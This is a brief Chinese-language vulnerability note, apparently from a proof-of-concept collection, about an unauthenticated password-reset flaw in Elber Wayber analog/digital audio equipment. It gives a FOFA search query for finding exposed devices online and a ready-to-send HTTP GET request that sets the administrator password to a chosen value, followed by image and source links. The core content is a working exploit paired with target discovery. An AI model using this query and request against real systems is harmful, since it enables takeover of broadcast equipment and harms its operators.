 # Elber-Wayber模拟数字音频密码重置漏洞

**Elber wavber 模拟/数字音频系统,存在一个严重的 安全漏洞只，该漏洞位于系统的密码重置功能中。攻击者可以通过利用此漏洞。绕过正常的身份验证流程，直接重置用户密码，从而非法获取系统访问权限。一旦攻击者成功重置密码，他们可以登录系统并完全接管控制权，进而窃取敏感数据、篡改系统设置或进行其他恶意操作。** 

## fofa

```javascript
title="Elber Satellite Equipment" || body="www.elber.it"
```

## poc

```javascript
GET /json_data/set_pwd?lev=2&pass=admin1234 HTTP/1.1
Content-Type: application/json
Host: 
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502131416179.webp)

## 漏洞来源

- https://mp.weixin.qq.com/s/GnuI11tY3AHG9jEh3J4aDQ